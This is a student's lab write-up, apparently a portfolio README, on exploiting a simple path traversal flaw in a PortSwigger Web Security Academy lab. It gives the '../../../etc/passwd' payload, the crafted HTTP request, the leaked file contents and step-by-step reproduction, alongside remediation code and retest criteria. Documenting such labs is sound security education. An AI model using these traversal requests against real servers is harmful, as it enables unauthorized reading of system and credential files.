


# Path Traversal — Lab 01: Simple Case (File Path Traversal, Unfiltered)

> Exploitation of an unvalidated `filename` parameter to read `/etc/passwd` via directory traversal on a PortSwigger Web Security Academy lab environment.


---

## Table of Contents

- [Overview](#overview)
- [Scope & Objectives](#scope--objectives)
- [Methodology](#methodology)
- [Findings](#findings)
- [Risk Summary](#risk-summary)
- [Tools & Environment](#tools--environment)
- [Evidence](#evidence)
- [Remediation](#remediation)
- [Lessons Learned](#lessons-learned)
- [References](#references)
- [Author](#author)

---

## Overview

Path traversal (also known as directory traversal) is a vulnerability class ranked under **OWASP Top 10 A01:2021 — Broken Access Control**. When web applications pass user-controlled input directly to filesystem APIs without sanitization, attackers can break out of the intended directory and read arbitrary files — including sensitive server-side files such as `/etc/passwd`, configuration files, and application source code.

This write-up documents the exploitation of a simple, unfiltered path traversal vulnerability in a PortSwigger Web Security Academy lab. The target application serves product images via a `filename` query parameter with no input validation. Traversal sequences were injected to navigate outside the web root and retrieve the contents of the Linux password file.

> **Key Outcome:** Arbitrary file read achieved on the server by injecting `../../../etc/passwd` into an unsanitized `filename` parameter, exposing system user account data including home directories and shell assignments.

---

## Scope & Objectives

### Objectives

- Identify and confirm the presence of a path traversal vulnerability in the image-serving endpoint.
- Exploit the vulnerability to retrieve the contents of `/etc/passwd`.
- Document the technical root cause, business impact, and specific remediation guidance.

### In Scope

| Target | Description | Type |
|--------|-------------|------|
| PortSwigger Web Security Academy Lab | "File path traversal, simple case" — Apprentice difficulty | Web Application |
| `/image?filename=` endpoint | Image-serving parameter accepting unsanitized user input | HTTP Endpoint |

### Out of Scope

- All other endpoints on the lab instance not directly related to the image-serving functionality.
- Any lateral movement or privilege escalation beyond file read demonstration.
- Other PortSwigger lab instances or external systems.

### Engagement Type

> **Type:** White-box (lab environment with known vulnerability context)
> **Authorization:** PortSwigger Web Security Academy — authorized sandboxed lab
> **Duration:** Single session

---

## Methodology

Testing followed the **OWASP Testing Guide v4.2** (OTG-AUTHZ-001 — Testing Directory Traversal) and **PTES** (Vulnerability Analysis and Exploitation phases).

### Phase 1 — Reconnaissance

Browsed the target web application (a simulated e-commerce shop) to identify endpoints that interact with the filesystem. Product image loading via the `/image?filename=` endpoint was identified as the primary attack surface.

### Phase 2 — Traffic Interception

Configured Burp Suite as an intercepting proxy. Loaded a product page and captured the outbound `GET /image?filename=<product>.jpg` request in the Repeater module for controlled manipulation.

### Phase 3 — Payload Construction

Constructed a directory traversal payload targeting the Linux password file:

```
../../../etc/passwd
```

The traversal depth (`../../../`) was selected to account for the typical web application root depth on a Linux server (e.g., `/var/www/html/images/`). Three levels of traversal exit this path and resolve to the filesystem root `/`.

### Phase 4 — Exploitation

Submitted the crafted request via Burp Suite Repeater:

```http
GET /image?filename=../../../etc/passwd HTTP/2
Host: <lab-id>.web-security-academy.net
```

The server returned `HTTP/2 200 OK` with `Content-Type: image/jpeg` and the full contents of `/etc/passwd` in the response body — confirming unvalidated pass-through of the `filename` parameter to the filesystem.

---

## Findings

### FINDING-01 — Unrestricted Path Traversal via `filename` Parameter

| Field | Value |
|-------|-------|
| **ID** | FINDING-01 |
| **Severity** | [HIGH] |
| **CVSS v3.1 Score** | 7.5 |
| **CVSS v3.1 Vector** | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` |
| **CWE** | CWE-22: Improper Limitation of a Pathname to a Restricted Directory |
| **OWASP Category** | A01:2021 — Broken Access Control |
| **MITRE ATT&CK TTP** | T1083 — File and Directory Discovery |
| **Affected Component** | `GET /image?filename=` HTTP endpoint |

#### Description

The application serves product images by passing the `filename` query parameter directly to a filesystem read operation. No validation, sanitization, or canonicalization is applied to the input. An unauthenticated attacker can inject directory traversal sequences (`../`) to escape the intended image directory and read arbitrary files accessible to the web server process.

#### Technical Impact

- Unauthenticated read access to any file readable by the web server OS user.
- Confirmed read of `/etc/passwd`, exposing system usernames, UIDs, GIDs, home directory paths, and shell assignments for all system accounts.
- Potential read of application configuration files (e.g., `settings.py`, `.env`, `database.yml`) containing database credentials, secret keys, and API tokens — depending on web server user permissions.

#### Business Impact

Exposure of `/etc/passwd` reveals system account structure, enabling username enumeration for follow-on attacks such as SSH brute-force or credential stuffing. If the web server process has read access to application configuration files, this vulnerability escalates to full credential compromise, potentially enabling database access, administrative takeover, or data exfiltration.

#### Proof of Concept

Request:

```http
GET /image?filename=../../../etc/passwd HTTP/2
Host: <lab-id>.web-security-academy.net
Cookie: session=<session-token>
```

Response (partial):

```
HTTP/2 200 OK
Content-Type: image/jpeg

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
```

#### Reproduction Steps

1. Open the lab application in a browser with Burp Suite configured as the intercepting proxy.
2. Navigate to any product page. Identify the image load request: `GET /image?filename=<product>.jpg`.
3. Send this request to Burp Suite Repeater.
4. Replace the `filename` value with `../../../etc/passwd`.
5. Send the modified request.
6. Observe the server returns `HTTP/2 200 OK` with `/etc/passwd` content in the response body.

---

## Risk Summary

| ID | Finding | Severity | CVSS | Priority |
|----|---------|----------|------|----------|
| FINDING-01 | Unrestricted Path Traversal via `filename` Parameter | [HIGH] | 7.5 | [IMMEDIATE] |

---

## Tools & Environment

| Tool | Version | Purpose |
|------|---------|---------|
| Burp Suite Community Edition | 2026.3.2 | HTTP interception, request manipulation, Repeater |
| Brave Browser | Current | Lab access and proxy traffic generation |
| PortSwigger Web Security Academy | Lab: "File path traversal, simple case" | Authorized target environment |
| Kali Linux (VMware) | Rolling | Attacker OS |

---

## Evidence

All evidence files are stored in the `evidence/` directory of this repository.

### Suggested File Names

| File | Description |
|------|-------------|
| `evidence/01-burp-repeater-exploit.png` | Burp Suite Repeater showing crafted request with `../../../etc/passwd` payload and full `/etc/passwd` response body |
| `evidence/02-lab-solved-confirmation.png` | PortSwigger lab interface confirming "Congratulations, you solved the lab!" banner |

---


*Caption: Burp Suite Repeater — `GET /image?filename=../../../etc/passwd` returns HTTP 200 with the full contents of `/etc/passwd`, confirming unvalidated filesystem access.*

---


*Caption: PortSwigger Web Security Academy confirmation banner — lab objective met after successful retrieval of `/etc/passwd` via path traversal.*

---

## Remediation

### FINDING-01 — Unrestricted Path Traversal via `filename` Parameter

**Priority:** [IMMEDIATE]

#### Recommended Fix

1. **Canonicalize and validate the resolved path before filesystem access.** After receiving the `filename` input, resolve the absolute path using the platform's canonical path function and assert that it begins with the expected base directory:

```python
import os

BASE_DIR = "/var/www/html/images/"

def get_image(filename):
    requested_path = os.path.realpath(os.path.join(BASE_DIR, filename))
    if not requested_path.startswith(os.path.realpath(BASE_DIR)):
        raise PermissionError("Path traversal attempt detected.")
    return open(requested_path, "rb").read()
```

2. **Apply an allowlist of permitted filenames or filename patterns.** Reject any input containing `..`, `/`, `\`, null bytes, or encoded variants (`%2e`, `%2f`, `%5c`).

3. **Serve static files through a hardened file server** (e.g., nginx `alias` with `try_files`) rather than application-level filesystem reads, reducing the attack surface.

4. **Run the web server process under a least-privilege OS user** with read access restricted to the web root only — this limits the blast radius if a traversal bypass is found.

#### Retest Criteria

Submit `GET /image?filename=../../../etc/passwd` after the fix is deployed. The expected result is `HTTP 400` or `HTTP 403` — not `HTTP 200` with file content. Additionally verify that requests for valid image filenames still resolve correctly.

---

## Lessons Learned

**Vulnerability class:** Path Traversal (CWE-22) — one of the most consistent vulnerabilities in web applications that serve files or load resources based on user-supplied filenames.

**Key technical insight:** The `Content-Type: image/jpeg` response header did not prevent the server from returning plaintext file content. This is a common misunderstanding — MIME type headers describe intent, not enforcement. The underlying filesystem read had no boundary validation regardless of the declared content type.

**Methodology note:** Starting with Burp Suite Repeater for manual payload testing before automation (e.g., `dotdotpwn`) allows precise observation of server behavior at each traversal depth — critical for understanding why a payload works, not just that it works.

**MITRE ATT&CK mapping:** T1083 (File and Directory Discovery) — path traversal in web applications is one of the primary vectors for enumerating server-side file structure prior to deeper exploitation (e.g., reading `.env` files for credential access).

**Skills demonstrated:** HTTP request manipulation, Burp Suite Repeater, path traversal payload construction, OWASP A01 exploitation, CVSS v3.1 scoring, CWE/MITRE ATT&CK mapping.

---

## References

- [PortSwigger Web Security Academy — Path Traversal](https://portswigger.net/web-security/file-path-traversal)
- [OWASP Testing Guide v4.2 — OTG-AUTHZ-001: Testing Directory Traversal](https://owasp.org/www-project-web-security-testing-guide/)
- [OWASP Top 10 2021 — A01: Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
- [CWE-22: Improper Limitation of a Pathname to a Restricted Directory](https://cwe.mitre.org/data/definitions/22.html)
- [MITRE ATT&CK T1083 — File and Directory Discovery](https://attack.mitre.org/techniques/T1083/)
- [NIST CVSS v3.1 Calculator](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator)

---

## Author

**Michael Asante Anim** | `0x1aerixis`
BSc Cyber Security — University of Mines and Technology (UMaT), Tarkwa, Ghana

[](https://github.com/anim-michael-asante)
[](https://linkedin.com/in/michael-asante-anim)
[](https://tryhackme.com/p/0x1aerixis)
[](https://x.com/0x1aerixis)
[](https://discord.com/users/0x1aerixis)

> *"Built in the lab. Documented for the field."*

---

> **Disclaimer:** All work documented in this repository was conducted in authorized, isolated lab environments or sanctioned CTF platforms. No unauthorized systems were accessed. This project is intended for educational and portfolio purposes only.
